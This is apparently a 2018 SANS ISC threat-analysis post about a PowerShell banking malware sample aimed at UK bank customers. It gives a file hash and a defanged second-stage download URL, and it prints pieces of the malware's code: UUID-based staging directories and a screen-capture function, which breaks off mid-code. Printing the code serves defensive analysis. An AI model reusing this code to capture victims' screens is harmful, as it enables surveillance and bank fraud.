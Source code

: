 Threat Level: green

previousnext



Malicious Powershell Targeting UK Bank Customers













Published: 2018-05-19
Last Updated: 2018-05-19 06:08:20 UTC
by Xavier Mertens (Version: 1)

2 comment(s)


I found a very interesting sample thanks to my hunting rules… It is a PowerShell script that was uploaded on VT for the first time on the 16th of May from UK. The current VT score is still 0/59[1]. The upload location is interesting because the script targets major UK bank customers as we will see below. Some pieces of the puzzle are missing. I don’t know how the script was dropped on the target. A retro-hunt search reported a malicious PE file (SHA256:3e00ef97f017765563d61f31189a5b86e5f611031330611b834dc65623000c9e[2]) that downloads another PowerShell script from a site located on a similar URL as found in the first file (hxxps://cflfuppn[.]eu/sload/run-first.ps1). Let’s check deeper the initial script. The first comment: it is not obfuscated and very easy to read and understand. Here is a review of the actions performed.
A specific directory is created to store all the files downloaded and created. The directory name is based on the system UUID and contains other sub-directories:
(Note: the code has been beautified for easier reading)

$uuid = (Get-WmiObject Win32_ComputerSystemProduct).UUID ;
$path = $env:APPDATA+"\"+$uuid;
$pp=$path+'\'+$uuid;
try{ if([System.IO.File]::Exists($pp+"_0")){ Remove-Item $pp"_0";} }catch{}
try{ if([System.IO.File]::Exists($pp+"_1")){ Remove-Item $pp"_1";} }catch{}
try{ if([System.IO.File]::Exists($pp+"_2")){ Remove-Item $pp"_2";} }catch{}
try{ if([System.IO.File]::Exists($pp)){ Remove-Item $pp; } }catch{}
The most interesting function of the script: It has the capability to take screenshots:

[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")

function Get-ScreenCapture{
  Param(
    [Parameter()]
    [Alias("Path")]
    [string]$Directory = ".",
    [Parameter()]
    [ValidateRange(70,100)]
    [int]$Quality,
    [Parameter()]
    [Switch]$AllScreens)
  Set-StrictMode -Version 2
  Add-Type -AssemblyName System.Windows.Forms
  if ($AllScreens) {
    $Capture = [System.Windows.Forms.Screen]::AllScreens
  } else {
    $Capture = [System.Windows.Forms.Screen]::PrimaryScreen
  }
  foreach ($C in $Capture) {
    $screenCapturePathBase = $path+"\ScreenCapture"
    $cc = 0
    while (Test-Path "${screenCapturePathBase}${cc}.jpg") {
      $cc++